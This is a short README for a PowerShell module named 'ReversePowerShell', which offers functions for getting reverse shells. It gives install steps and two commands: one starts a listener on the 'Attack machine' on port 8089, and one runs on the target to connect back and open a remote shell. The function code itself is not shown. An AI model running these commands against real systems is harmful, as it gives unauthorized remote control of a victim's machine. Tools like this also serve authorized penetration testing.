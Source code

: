 # ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell

Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 C:\Users\\$env:USERNAME\Documents\WindowsPowerShell\Modules\ReversePowerShell

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.

The below command can be executed to start a listener on the Attack machine on port 8089
```powershell
Start-Listener -Port 8089
```

The below command is to be issued on the Target Machine to connect to the listener on the target over port 8089
```powershell
Invoke-ReversePowerShell -IpAddress <TargetIPv4Address> -Port 8089
```

